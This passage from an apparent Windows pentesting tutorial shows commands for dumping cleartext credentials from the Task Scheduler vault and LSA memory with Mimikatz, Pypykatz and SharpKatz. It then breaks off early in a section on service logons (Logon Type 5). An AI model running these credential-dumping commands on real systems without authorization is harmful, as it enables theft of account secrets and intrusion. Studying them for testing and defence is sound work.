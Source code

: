 ![](https://static.wixstatic.com/media/8b80b6_be0387b2a60e4845a4d12672f0a38d93~mv2.png/v1/fit/w_300,h_300,al_c,q_5/file.png)

Extract Credentials using Mimikatz

We can also extract cleartext credentials from Task Scheduler by reading the credentials from the Vault using [Mimikatz](https://github.com/gentilkiwi/mimikatz). We need SYSTEM privileges to extract the cleartext credentials.

```
privilege::debug
token::elevate
vault::cred /patch

```

![](https://static.wixstatic.com/media/8b80b6_a8eb46c49f7744d699aeed273113ebaf~mv2.png/v1/fit/w_300,h_300,al_c,q_5/file.png)

Extract Credentials using Mimikatz

**Using Pypykatz**

We can use the below mentioned [Pypykatz](https://github.com/skelsec/pypykatz) commands for extracting the credentials.

```
pypykatz.exe live lsa

```

![](https://static.wixstatic.com/media/8b80b6_75d6aa47a05d4fedb55b2e1899f45fb6~mv2.png/v1/fit/w_300,h_300,al_c,q_5/file.png)

Extract Credentials using Pypykatz

**Using Sharpkatz**

We can use the below mentioned [Sharpkatz](https://github.com/b4rtik/SharpKatz) commands for extracting the credentials.

```
SharpKatz.exe --Command ekeys

```

![](https://static.wixstatic.com/media/8b80b6_531d731aaa6148b4957c77078fccb9c5~mv2.png/v1/fit/w_300,h_300,al_c,q_5/file.png)

Extract Credentials using Sharpkatz

### **Logon Type 5 : Service**

Logon Type 5 event is generated when a service is started with a specific user. We can configure a service to run as a specific user wherein windows will create a new logon session for the service. The new logon session is not created if it is executed with "Local System", "NT AUTHORITY|LocalService" or "NT AUTHORITY\NetworkService" users.

We can follow the below mentioned steps to configure a service to run as a specific user:

1) Open Services.msc.
